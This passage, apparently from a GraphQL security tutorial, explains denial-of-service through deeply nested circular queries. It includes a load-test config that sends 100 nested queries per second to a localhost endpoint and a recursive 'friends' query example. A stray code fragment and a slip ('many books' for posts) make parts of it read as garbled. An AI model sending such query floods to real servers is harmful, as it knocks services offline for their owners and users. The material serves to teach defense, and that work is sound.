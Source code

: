 ```graphql
}
```

In our schema above, a blog post has an author, and an author(user) has many books. If an attacker sends a query for a user, which in turn requires his/her posts, which requires the author, which in turn require his/her posts again, the server will be stuck in an infinite loop, consuming a significant amount of processing power.

```yaml
config:
  target: "http://localhost:4000/graphql"
  phases:
    - duration: 60
      arrivalRate: 100
  payload:
      method: "POST"
      headers:
        Content-Type: "application/json"
      jsonBody:
        query: "query { user { id name email posts { id title author { id name email posts { id title author { id name email posts { id title author { id name } } } } } } }
}"
```

This configuration sends 100 queries per second for 60 seconds. When we run this configuration against the server, we can see that the CPU usage spikes to 100%, indicating that the server is under attack.

```graphql:schema.graphql showLineNumbers
"""
the Date type represent a date string in ISO format
"""
scalar Date

type User {
  id: ID!
  name: String
  email: String!
  createdAt: Date!
  friends: [User!]!
}
```

```graphql:query.graphql showLineNumbers
query {
  user(id: "ID") {
    friends {
      friends {
        friends {
          friends {
            ...
          }
        }
      }
    }
  }
}
```
